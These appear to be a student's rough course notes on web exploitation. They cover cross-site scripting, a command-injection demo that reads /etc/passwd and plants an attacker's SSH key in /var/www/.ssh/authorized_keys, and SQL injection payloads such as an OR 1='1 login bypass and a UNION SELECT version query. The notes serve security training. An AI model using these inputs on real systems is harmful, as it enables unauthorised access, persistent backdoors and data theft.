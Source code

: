 ### Cross-Site Scripting
    Attacker puts bad stuff on trusted website, it allows it to execute bad code
#### Reflected XSS
    Not stored, run JS on website, changes url, bad code in url
#### Stored XSS
    Actually stored on server

### Demo
    lin-ops> ssh-keyget -t rsa "enter", "enter" is in /home/student/.ssh/id_rsa"
    passhprhase -> blank
    have genterated key
    cd ~/.ssh 
    ca id_rsa.pub(lic key) "generated public key"
    in search box
        : whoami -> www-data
        : cat /etc/passswd -> home dir is /var/www
        : ls -la /var/www -> see if .ssh file is created
        : mksir /var/www/.ssh
        : echo "ssh-rsa 'key' student@lin-ops" > /var/www/.ssh/authorized_keys

## Day 3 - Web Explotation  Part 2 - SQL Injection 
### MySql
    Unsanitized vs Sanitized Fields
        Unsanitized test, enter '
            will return info, no errors or jeneric error
        Santized: items are removed, escaped into single string

    Server-Side Query Processing
        Before Input
            name='$name'...
            nmae='JohnDoe'

### Injecting Statemnet
    User Enters TOM' OR 1='1 in the name and pass fields
    Truth Statemnet: tom 'OR 1=' 1

    Back End
        name='tom' OR 1='1' AND PASS='tom' OR 1='1'

##
    mysql
    use session;
    select * from user;
    select id from user where name='admin';  = 0
    select id from user where name='tom';  = none
    select * from user where name='tom' OR 1=1;  = eveyrthing
    stacking statements, chain statements togetyher with ;

    To find the version
        Audi' UNION SELECT @@version,database(); #
